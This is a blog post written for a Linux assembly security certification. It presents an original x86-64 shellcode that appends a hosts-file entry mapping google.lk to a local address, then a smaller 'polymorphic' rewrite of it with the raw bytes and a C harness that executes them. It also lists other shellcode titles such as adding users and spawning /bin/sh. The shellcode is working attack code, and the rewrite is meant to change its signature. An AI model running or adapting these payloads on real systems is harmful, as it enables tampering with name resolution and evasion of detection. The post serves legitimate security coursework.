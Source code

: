 Assignment #6 – Writing polymorphic shellcodes
==============================================

In this assignment I had to choose three shellcodes from [Shell Storm][shell_storm_shellcode] and write polymorphic versions of them. Bonus points if your version is smaller than the original. I chose the following:

    Linux/x86-64 - Add map in /etc/hosts file - 110 bytes by Osanda Malith Jayathissa

    $ curl -s http://shell-storm.org/shellcode/ | grep "Linux/x86-64" | shuf -n3
    <li><a href="/shellcode/files/shellcode-880.php">Linux/x86-64 - Add user and password with open,write,close - 358 bytes</a> <i>by Christophe G</i></li>
    <li><a href="/shellcode/files/shellcode-76.php">Linux/x86-64 - execve(/bin/sh, [/bin/sh], NULL) - 33 bytes</a> <i>by hophet</i></li>
    <li><a href="/shellcode/files/shellcode-879.php">Linux/x86-64 - Add user and password with echo cmd - 273 bytes</a> <i>by Christophe G</i></li>



Add map in `/etc/hosts` file - 110 bytes by [@OsandaMalith][@OsandaMalith]
--------------------------------------------------------------------------

The original shellcode can be found [here][shell_storm_shellcode_896]. I reproduce it below.

Doing a quick reverse we find this shellcode adds an entry to `/etc/hosts`, in this case `127.1.1.1 google.lk`.

    ; Title: Add map in /etc/hosts file - 110 bytes
    ; Date: 2014-10-29
    ; Platform: linux/x86_64
    ; Website: http://osandamalith.wordpress.com
    ; Author: Osanda Malith Jayathissa (@OsandaMalith)

    global _start
        section .text

    _start:
        ;open
        xor rax, rax 
        add rax, 2  ; open syscall
        xor rdi, rdi
        xor rsi, rsi
        push rsi ; 0x00 
        mov r8, 0x2f2f2f2f6374652f ; stsoh/
        mov r10, 0x7374736f682f2f2f ; /cte/
        push r10
        push r8
        add rdi, rsp
        xor rsi, rsi
        add si, 0x401
        syscall

        ;write
        xchg rax, rdi
        xor rax, rax
        add rax, 1 ; syscall for write
        jmp data

    write:
        pop rsi 
        mov dl, 19 ; length in rdx
        syscall

        ;close
        xor rax, rax
        add rax, 3
        syscall

        ;exit
        xor rax, rax
        mov al, 60
        xor rdi, rdi
        syscall 

    data:
        call write
        text db '127.1.1.1 google.lk'

My polymorphic version can be seen below. The first part was heavily altered and multiple size optimisations were introduced. The remaining parts had some instructions substituted by equivalent ones and some more optimisations (say `xor eax, eax` instead of `xor rax, rax`). In the end my polymorphic version works as the original but was cut from 110 bytes to 85. Neither the original nor my version include null bytes.

    global _start
        section .text

    _start:
        ;open
        ; rdi = *pathname
        ; rsi = 0x0401
        ; rax = 2
        push 2
        pop rax
        xor edi, edi
        push rdi                     ; null byte, terminate string
        push 0x7374736f              ; rax2 -S $(echo osts | rev)
        mov r9, 0x682f6374652f2f2f   ; rax2 -S $(echo ///etc/h | rev)
        push r9
        mov rdi, rsp
        push word 0x0401             ; O_WRONLY|O_APPEND
        pop si
        syscall

        ;write
        mov edi, eax
        xor eax, eax
        inc rax                      ; syscall for write
        jmp data

    write:
        pop rsi 
        mov dl, 19                   ; length in rdx
        syscall

        ;close
        sub eax, eax
        add eax, 3
        syscall

        ;exit
        ;xor eax, eax                ; already done by close
        add al, 60
        xor edi, edi
        syscall 

    data:
        call write
        text db '127.1.1.1 google.lk'

    
    #include <stdio.h>
    #include <string.h>

    char code[] =
    "\x6a\x02\x58\x31\xff\x57\x68\x6f\x73\x74\x73\x49\xb9\x2f\x2f\x2f\x65\x74"
    "\x63\x2f\x68\x41\x51\x48\x89\xe7\x66\x68\x01\x04\x66\x5e\x0f\x05\x89\xc7"
    "\x31\xc0\x48\xff\xc0\xeb\x12\x5e\xb2\x13\x0f\x05\x29\xc0\x83\xc0\x03\x0f"
    "\x05\x04\x3c\x31\xff\x0f\x05\xe8\xe9\xff\xff\xff\x31\x32\x37\x2e\x31\x2e"
    "\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x6c\x6b";

    int main() {
        printf("length: %lu\n", strlen(code));
        ((int(*)()) code)();
    }



[shell_storm_shellcode]: http://shell-storm.org/shellcode/
[shell_storm_shellcode_896]: http://shell-storm.org/shellcode/files/shellcode-896.php

[@OsandaMalith]: https://twitter.com/OsandaMalith

----

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert][SLAE64] certification.

Student ID: SLAE64-1635

[SLAE64]: https://www.pentesteracademy.com/course?id=7
